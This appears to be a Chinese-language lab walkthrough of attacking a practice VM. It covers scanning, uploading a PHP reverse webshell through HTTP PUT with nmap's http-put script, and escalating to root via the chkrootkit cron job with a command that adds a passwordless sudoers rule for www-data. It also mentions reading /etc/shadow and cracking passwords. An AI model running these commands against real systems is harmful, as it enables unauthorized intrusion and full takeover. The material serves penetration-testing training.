# PUT漏洞

## 信息检索

攻击机：192.168.1.15

靶机：192.168.1.17

扫描开放的服务和端口



开放了22端口（ssh服务）和80端口（http服务）

并且http服务支持GET\HEAD\POST\OPTIONS方法

## 目录扫描

打开http://IP地址:80查看网页及网页源代码



并没有有用信息

使用dirb\nikto扫描网站目录：





有一个"this might be interesting"的/test/目录，我们访问看看：



## 漏洞扫描

使用AWVS扫描该网站：



显然我们可以通过PUT方法创建测试文件进行攻击

## 反弹shell

> 思路：利用PUT方法上传webshell，然后我们再开启监听，获取shell。最后提权

直接使用kali中自带的phpshell文件作为我们 的木马文件



记得修改php文件中攻击机的IP地址和监听端口



我们把监听端口设为443

用nmap工具将webshell.php通过PUT方法上传到服务器中

>nmap -p 80 192.168.1.17 -script http-put -script-args http-put.url='/test/nmap.php',http-put.file='webshell.php'

开启监听并执行木马文件，获得shell



## 提权

先用python实现一个虚拟终端



此时并非root权限，因此我们要进行提权

查看定时任务，发现三个目录，我们选择/etc/cron.daily目录



通过查看/etc/cron.daily目录，发现一款后门扫描工具的配置文件ckrootkit（会在特定时间执行）

> searchsploit查看该配置文件存在的漏洞



还是使用nmap上传，然后我们可以在/var/www/test目录下查看到我们刚才上传的C文件



>**echo 'chmod +w /etc/sudoers && echo "www-data ALL=(ALL : ALL) NOPASSWD:ALL" >> /etc/sudoers' > /tmp/update**
>
>分析：
>
>1、echo是Linux中用来输出文本到标准输出的命令
>
>这个命令表示将包含命令的字符串输出到/tmp/update文件中
>
>2、chmod命令用于更改文件或目录的权限，+w是给/etc/sudoers文件添加写权限
>
>3、&&是逻辑运算符
>
>表示前一个命令成功执行后才会执行下一个命令/
>
>4、>>是输出重定向操作符，表示将内容追加到文件中
>
>**这个命令本质上是将一组命令写入 `/tmp/update` 文件中，这些命令包括修改 `/etc/sudoers` 文件的权限，并添加一条规则，允许 `www-data` 用户无密码执行所有命令**。

然后我们尝试访问/etc/passwd和/etc/shadow文件，如果可以访问说明配置成功

利用john破解密码。。。。

## 提权2

利用MSF提权

先用msfconsole开启监听



获得www-data权限

将该会话置于后台，然后寻找chkrootkit漏洞并利用漏洞

